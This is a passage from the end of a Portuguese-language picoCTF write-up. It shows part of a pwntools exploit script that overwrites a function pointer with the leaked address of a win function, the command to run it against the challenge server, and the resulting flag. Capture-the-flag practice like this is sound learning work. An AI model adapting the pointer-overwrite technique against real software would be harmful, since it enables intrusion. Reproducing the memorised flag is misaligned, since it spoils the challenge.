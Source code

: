 ```python
    p.sendlineafter(b'(Y/N)?\n', b'Y')

    # Grava uma mensagem
    p.sendlineafter(b'(e)xit\n', b'L')
    # A nossa mensagem vai ser nada mais do que o endereço da função hahaexploitgobrrr (4 bytes) no formato little endian.
    p.sendlineafter(b'try anyways:\n', p32(leak))

    # Após isso o programa remoto vai executar o doProcess(user) e rodar a função apontada pelo ponteiro whatToDo, que agora aponta para hahaexploitgobrrr, mostrando a flag no terminal
    flag = p.recvline().decode().strip()

    p.close()

    log.success(f'Flag: {flag}')


if __name__ == '__main__':
    main()

```
Salvando o programa como solve.py e rodando ele com o comando ```python3 solve.py mercury.picoctf.net 4593```, obtemos a flag ```picoCTF{d0ubl3_j30p4rdy_ba307b82}``` no terminal:

![flag-img](./FlagImg.png)

### Agora sim o desafio foi concluído!







